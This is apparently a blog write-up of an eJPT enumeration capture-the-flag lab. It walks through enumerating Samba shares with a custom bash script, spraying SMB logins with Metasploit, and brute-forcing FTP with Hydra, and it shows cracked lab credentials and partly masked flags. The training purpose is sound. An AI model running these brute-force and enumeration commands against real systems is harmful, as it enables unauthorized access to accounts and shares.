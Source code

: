 ```yaml
---
title: "eJPT - Assessment Methodologies: Enumeration CTF 1"
date: 2025-05-20 00:00:00 - 0500
categories: [ eJPT , Lab , Vulnerability Assessment]
tags: [Footprinting, Easy]
image:
    path: /assets/img/1.gif
    alt: image
---
```


The first step is to find the ip address of the target machine for that we are using this command to list the ip address form the hosts files `cat /etc/hosts`  then starting the `postgresql` for the msfconsole so that the service can run more effectively.



Before ever we starting here is the main lab environment and the question that we are have to found in that room 

# Lab Environment

A Linux machine is accessible at **target.ine.local**. Identify the services running on the machine and capture the flags. The flag is an md5 hash format.

- **Flag 1:** There is a samba share that allows anonymous access. Wonder what's in there!
- **Flag 2:** One of the samba users have a bad password. Their private share with the same name as their username is at risk!
- **Flag 3:** Follow the hint given in the previous flag to uncover this one.
- **Flag 4:** This is a warning meant to deter unauthorized users from logging in.

**Note:** The wordlists located in the following directory will be useful:

- /root/Desktop/wordlists

# Tools

- Nmap
- Metasploit
- Hydra
- enum4linux
- smbclient
- smbmap

### Questions

1. There is a samba share that allows anonymous access. Wonder what's in there!
    
2. One of the samba users have a bad password. Their private share with the same name as their username is at risk!
3. Follow the hint given in the previous flag to uncover this one.
4. This is a warning meant to deter unauthorized users from logging in.

---

### Question 1

---

Now with that lets start with the main to find the samba share which will give access to the anonymous access.

 
![alt text](/assets/img/image-1.png)


Since the modules `smb_enumshares` does not have the ability to run the custom wordlists we’ll use the bash script to run out the scan and here is the command for that

```bash
#!/bin/bash

# Obtain the target and wordlist from command-line arguments
target="$1"
wordlist="$2"

# Check if both arguments are provided
if [ -z "$target" ] || [ -z "$wordlist" ]; then
    echo "Usage: $0 <target> <wordlist>"
    exit 1
fi

# Check if the wordlist file exists
if [ ! -f "$wordlist" ]; then
    echo "Error: Wordlist file '$wordlist' not found."
    exit 1
fi

# Initialize an array to store successful shares
successful_shares=()

# Loop through each share in the wordlist
while read -r share; do
    echo -e "Testing share: \e[34m$share\e[0m"
    smbclient "//$target/$share" -N -c "ls" &>/dev/null

    if [ $? -eq 0 ]; then
        successful_shares+=("$share")
    fi
done < "$wordlist"

# Output the results
if [ ${#successful_shares[@]} -gt 0 ]; then
    echo -e "\n\e[32m[+] Successfully accessed shares:\e[0m"
    for share in "${successful_shares[@]}"; do
        echo -e "\e[32m[+] \e[34m$share\e[0m"
    done
else
    echo -e "\e[31m[-] No accessible shares found.\e[0m"
fi

echo -e "\n[+] SMB enumeration completed."
```

Then we’ll save the files in the local machines and change the script into the executable. 

![alt text](/assets/img/image-2.png)

then running the script with the arguments of target and the share’s list which is made available by scope. and here is the command for that 

```bash
./smb_enum.sh target.ine.local /root/Desktop/wordlists/shares.txt 
```

and we found some share what worth to take a look at it! `pubfiles`



By connection using the `smbclient` we are able to find the flag1.

```bash
smbclient \\\\target.ine.local\\pubfiles
get flag1.txt
!cat flag1.txt
```

---

### Question 2

One of the samba users have a bad password. Their private share with the same name as their username is at risk!

The scope says that samba user have the bad password first let’s check the available user using the tool called `enum4linux` .

```bash
enum4linux -a target.ine.local
```

![alt text](/assets/img/image-4.png)

Here we found 4 user’s and let’s a user list for the further use of it.

![alt text](/assets/img/image-5.png)

Then as the scope is related to the login we’ll use the `smb_login` models form the `msfconsole` which we’ll give the `user_pass` the password that is generated from the  `enum4linux` user list. then for the password we’ll use the scope password given by.

 

![alt text](/assets/img/image-6.png)

```bash
use auxiliary/scanner/smb/smb_login 
set user_file user.txt
set pass_file /root/Desktop/wordlists/unix_passwords.txt
set pass_file /root/Desktop/wordlists/unix_passwords.txt
run
```

after execution we found 2 user and their password for the smbshare’s and here is the list

![alt text](/assets/img/image-7.png)

```bash
josh:purple
alice:admin
```

Let’s try using the creds we found to login as them and find some information.



```bash
smbclient \\\\target.ine.local\\josh -U josh
ls
get flag2.txt
!cat flag2.txt
```

With that we found the `flag2.txt`  and here is the flag. 

FLAG2{06fb1ae898134918b11*********}

---

### Question 3

1. Follow the hint given in the previous flag to uncover this one.


<aside>
💡

Psst! I heard there is an FTP service running. Find it and check the banner.

</aside>

so now we have to focus on FTP services in his case we’ll use the hydra tool 

![alt text](/assets/img/image-9.png)

here is the command for it 

```bash
hydra -L user.txt -P /root/Desktop/wordlists/unix_passwords.txt ftp://target.ine.local -s 5554
```

- **`hydra`** → The tool being used for brute-force attacks.
- **`L user.txt`** → Specifies a file (`user.txt`) containing a list of usernames to try.
- **`P /root/Desktop/wordlists/unix_passwords.txt`** → Specifies a file containing a list of passwords to try.
- **`ftp://target.ine.local`** → The target service (FTP) and hostname (`target.ine.local`).
- **`s 5554`** → Specifies a custom port (`5554`) instead of the default FTP port (`21`).

![alt text](/assets/img/image-10.png)
<aside>
💡

Found: alice:pretty

</aside>

Using the Creds we logged into the ftp services and got the flag3.



```bash
ftp target.ine.local 5554
ls
get flag3.txt
!cat flag3.txt
```

FLAG3{b4b818bbc0d84a60b380*********}

---

### Question 4

The services which we didn’t look into is the `ssh` so we’ll try to login into the services after which we found out that flag is present in that banner of the SSH services hence we also found the flag4.

 

FLAG4{1631ae1d05d2446ab47*********}

with that this room comes to an end!